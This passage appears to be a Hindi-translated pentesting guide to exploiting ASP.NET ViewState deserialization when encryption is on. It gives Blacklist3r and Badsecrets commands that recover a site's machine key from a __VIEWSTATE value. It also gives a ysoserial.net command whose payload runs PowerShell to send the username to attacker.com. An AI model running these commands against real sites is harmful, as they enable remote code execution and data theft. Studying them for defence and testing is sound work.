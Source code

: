 ### Test Case: 4 – .Net >= 4.5 और EnableViewStateMac=true/false और ViewStateEncryptionMode=true/false सिवाय दोनों गुणों के false होने के

हम नीचे दिए गए पैरामीटर को web.config फ़ाइल के अंदर निर्दिष्ट करके ASP.NET ढांचे के उपयोग को मजबूर कर सकते हैं जैसा कि नीचे दिखाया गया है।
```xml
<httpRuntime targetFramework="4.5" />
```
वैकल्पिक रूप से, यह `web.config` फ़ाइल के `machineKey` पैरामीटर के अंदर नीचे दिए गए विकल्प को निर्दिष्ट करके किया जा सकता है।
```bash
compatibilityMode="Framework45"
```
जैसे कि पिछले में **मान एन्क्रिप्टेड है।** फिर, एक **मान्य पेलोड भेजने के लिए हमलावर को कुंजी की आवश्यकता है।**

आप कुंजी खोजने के लिए [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) का उपयोग करने की कोशिश कर सकते हैं:
```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata bcZW2sn9CbYxU47LwhBs1fyLvTQu6BktfcwTicOfagaKXho90yGLlA0HrdGOH6x/SUsjRGY0CCpvgM2uR3ba1s6humGhHFyr/gz+EP0fbrlBEAFOrq5S8vMknE/ZQ/8NNyWLwg== --decrypt --purpose=viewstate  --valalgo=sha1 --decalgo=aes --IISDirPath "/" --TargetPagePath "/Content/default.aspx"

--encrypteddata = {__VIEWSTATE parameter value}
--IISDirPath = {Directory path of website in IIS}
--TargetPagePath = {Target page path in application}
```
IISDirPath और TargetPagePath के लिए अधिक विस्तृत विवरण के लिए [यहाँ देखें](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

या, [**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) (एक जनरेटर मान के साथ):
```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```
![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

एक मान्य मशीन कुंजी पहचानने के बाद, **अगला कदम** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) **का उपयोग करके एक अनुक्रमित पेलोड उत्पन्न करना है।**
```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```
यदि आपके पास `__VIEWSTATEGENERATOR` का मान है, तो आप उस मान के साथ `--generator` पैरामीटर का **उपयोग** करने की कोशिश कर सकते हैं और `--path` और `--apppath` पैरामीटर को **छोड़** सकते हैं।

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/4.2.png)

